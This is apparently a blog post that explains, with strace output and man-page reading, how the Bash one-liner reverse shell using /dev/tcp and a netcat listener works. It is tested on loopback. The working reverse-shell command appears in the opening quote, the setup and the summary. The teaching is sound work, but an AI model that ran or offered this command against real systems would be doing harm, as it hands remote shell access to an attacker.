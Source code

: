 +++
title = "One Line Reverse Shell in Bash"
slug = "reverse-shell-in-bash"
date = 2018-01-10T06:41:19Z
desc = "Figuring out how a Bash one-liner works as a reverse shell."
tags = ["security", "tools"]
+++

Yesterday I saw a message from [Bryan Brake] on one of the [BrakeSec Slack] channels:

> This is a pretty bit of bash scripting *bash -i >& /dev/tcp/192.168.8.198&#x002f;4444 0>&1*

I knew that it’s a reverse shell&#8239;---&thinsp;a tool that connects the target computer back to you (hence the ‘reverse’) and then allows you to execute commands on that machine (‘shell’). But how does it work?

*Skip to the [Summary] if you just want the answer.*

## Setup

Bryan then mentioned that this command is supposed to be used with a [netcat], which is `nc` or `ncat` depending on your version, listening on port `4444` of the computer with <abbr>IP</abbr> `192.168.8.198`:
```
$ nc -v -n -l -p 4444
# -v — be verbose
# -n — do not try to inverse lookup IPs that connect to us
# -l — listen
# -p 4444 — port to listen on
```

I didn’t want to run my shell over the open Internet, so I replaced `192.168.8.198` with the loopback <abbr>IP</abbr> `127.0.0.1`:
```
# (1) run in the first terminal
$ nc -vnlp 4444

# (2) and then in the second
$ bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

And it works! Now, let’s figure it out one peace at the time, starting from `bash -i`.

## Interactive Bash

According to the [Bash] man page (`man bash`), option `-i` means that we’re starting an _“interactive shell.”_ The _Invocation_ section then explains that non-interactive shell will not execute its startup files: all those `/etc/profile`, `~/.profile`, `~/.bashrc`, etc. It also says that Bash automatically starts in this interactive mode when there are no non-option arguments (unless you pass a command to execute with a `-c`) and when its standard input and error streams are both connected to terminals.

{{<lead>}}So why would we want an interactive shell?{{</lead>}} I think, just because it will be more like shells that we’re used to&#8239;---&thinsp;with default aliases, correctly set `PATH`, and a [prompt].

{{<lead>}}Ok, and why isn’t it interactive in our case?{{</lead>}} Those angle brackets in our command redirect standard streams; this probably make Bash think that it isn’t running in the terminal. Let’s look into it.

## Network Redirection

Redirection is a feature available in most of the shells that allow you to change where command’s output goes, and input comes from. For example, this will write the directory listing to the `dir.list` file:
```
$ ls -l > dir.list
```

A quick search through the good old man page reveals that `>& target` is just an alternative form of `&> target`, which in turn means `1> target 2>&1`&#8239;---&thinsp;redirect both standard output and standard error streams to the `target`.

At this point, I made a mistake thinking that `>& /dev/tcp/127.0.0.1/4444` is merely a redirect of stdout and stderr to some special file `/dev/tcp/127.0.0.1/4444` that automatically opens a <abbr>TCP</abbr> connection. Everything is a file on Linux after all, right? This can even be “confirmed” by redirecting the output of a simple `echo`:
```
# (1) don’t forget to start listening,
# since nc will quit every time you disconnect;
# I’ll omit it in the following listings
$ nc -nvlp 4444

# (2) it works!
$ echo hello, world > /dev/tcp/127.0.0.1/4444
```

But then I’ve tried to do the same thing from [<abbr>ZSH</abbr>][ZSH]:
```
$ echo hello, world > /dev/tcp/127.0.0.1/4444
zsh: no such file or directory: /dev/tcp/127.0.0.1/4444
```
{{<lead>}}Why doesn't it work in <abbr>ZSH</abbr>?{{</lead>}} It turns out, it could be a special file, but I think this isn’t supported on my Debian, so Bash just emulates them, while <abbr>ZSH</abbr> does not. What’s interesting to note, it works without any special rights!

Now for the most confusing part.

## Sending your stdin to stdout

That’s exactly how `0>&1` reads to me. What does it even mean?!

At first, I thought this is needed so that the server, i.e. netcat side, would see its input back. I’ve tested my idea by removing it from the command. That broke the ‘shell’ part: now I could still see commands and their output on the server side, but couldn’t execute anything! You should play with it; it’s kind of a weird setup:
```
$ bash -i >& /dev/tcp/127.0.0.1/4444
```

At this point, I remembered about this tool `strace`, which allows you to see the kernel functions called by the program. Inspired by the example of [Julia Evans], I wasn’t afraid to try it. 😄

### Investigating with strace

I didn’t know what system call I wanted to find, so I just ran it without any filters and saved the full output to `strace.out` file:
```
$ strace -f bash -c 'bash -i /dev/tcp/127.0.0.1/4444 0>&1' > strace.out
# -f — makes strace follow the child processes created
# I wrapped my command in 'bash -c' so that redirections
# do not affect strace itself
```

Then I used `grep` to find the line with a string ‘127.0.0.1’ in it:
```
$ grep --line-number '127.0.0.1' strace.out
1:execve("/bin/bash", ["bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/44"...], 0x7fff7df714d8 /* 57 vars */) = 0
200:[pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
```

First hit isn’t interesting, it’s just `strace` executing our command. But the second one looks promising. Here it is with a couple more lines around:
```
199: [pid  5106] socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
200: [pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
201: [pid  5106] dup2(3, 1)                  = 1
202: [pid  5106] close(3)                    = 0
203: [pid  5106] dup2(1, 2)                  = 2
204: [pid  5106] dup2(1, 0)                  = 0
205: [pid  5106] fcntl(1, F_GETFD)           = 0
206: [pid  5106] execve("/bin/bash", ["bash", "-i"], 0x2485008 /* 57 vars */) = 0
```

* According to `man socket`, call to `socket()` returns a file descriptor (_fd_), in our case, it’s `3`. Then `connect()`, unsurprisingly, connects a socket identified by the fd to the given address. Ok, so after the first two lines we have an open socket to our server.
* Again, consulting with `man` reveals that `dup2(3, 1)` on line 3 will close fd `1`, which is our stdout, and create a copy of the socket (fd `3`) on it. _“After  a  successful return, the old and new file descriptors may be used interchangeably.”_ Now we close `3` since we don’t need the original anymore. Great! The `1> /dev/tcp/...` part is done in four syscalls.
* On line 203 `dup(1, 2)` does the same thing to our stderr: closes original and makes a copy of a socket to fd `2`. We’re now done with the `>& /dev/tcp/…`.

Only after meditating on line 204 for a while, it clicked for me: I was completely wrong about redirections! Using them is *not* like connecting tubes, even if it typically looks that way. Both `>` and `<` are *value assignments!*

When you do `ls -l > dir.list` you are not somehow “sending” the output from `ls` to the file. You’re _assigning_ the file `dir.list` to the standard output of `ls`.

This also explains why you can put redirections wherever you like around the command:
```
# these are the same
$ some_cmd -v > file
$ > file some_cmd -v
$ some_cmd > file -v
```
But the order of redirections relative to each other matters:
```
# stderr := stdout
# stdout := file
$ some_cmd 2>&1 1>file

# stdout := file
# stderr := stdout (== file)
$ some_cmd 1>file 2>&1
```

When we execute `0>&1`, we’re assigning to stdin the stdout’s fd, which is at that point is a socket. It doesn’t change almost anything if we do it the other way around: `0<&1`&#8239;---&thinsp;it’s still `stdin := stdout`. The only difference is that `>` checks if a target is available for writing and `<` tests for reading. Our socket is bidirectional, so it passes both.

## Summary

When you execute `$ bash -i >& /dev/tcp/192.168.8.198/4444 0>&1`

* first, Bash will (somehow?) check if special files `/dev/tcp/<host>/<port>` are supported by your <abbr>OS</abbr> and if they aren’t, it will emulate them by opening a <abbr>TCP</abbr> connection to `192.168.8.198:4444` for you
* it will also _reassign_ all three standard streams&#8239;---&thinsp;stdin, stdout, and stderr&#8239;---&thinsp;to the socket with this new connection, so all the output will go into, and input will be read from this socket
* then it will start a new interactive Bash session

## Links/Resources

* man page for Bash; thanks, Brian Fox and Chet Ramey!
* [“Redirection” page][redirection] on [Bash Hackers Wiki][bash-hackers]
* man pages for the syscalls, written as part of the [Linux man-pages project][man-pages]
* Julia’s excellent [talk][julia-talk], [blog posts][julia-blog] and [zines][julia-zine] on `strace`
* to join [BrakeSec Slack], as one should, send a quick DM to [@BrakeSec]

[Bryan Brake]: https://twitter.com/bryanbrake
[Julia Evans]: https://jvns.ca/
[BrakeSec slack]: https://brakesec.slack.com
[summary]: #summary
[netcat]: http://nc110.sourceforge.net/
[Bash]: https://en.wikipedia.org/wiki/Bash_(Unix_shell)
[ZSH]: https://en.wikipedia.org/wiki/Z_shell
[prompt]: https://en.wikipedia.org/wiki/Command-line_interface#Command_prompt
[man-pages]: https://www.kernel.org/doc/man-pages/
[redirection]: http://wiki.bash-hackers.org/syntax/redirection
[bash-hackers]: http://wiki.bash-hackers.org/start
[julia-talk]: https://www.youtube.com/watch?v=HfD9IMZ9rKY
[julia-blog]: https://jvns.ca/categories/strace/
[julia-zine]: https://jvns.ca/zines/#strace-zine
[@BrakeSec]: https://twitter.com/BrakeSec
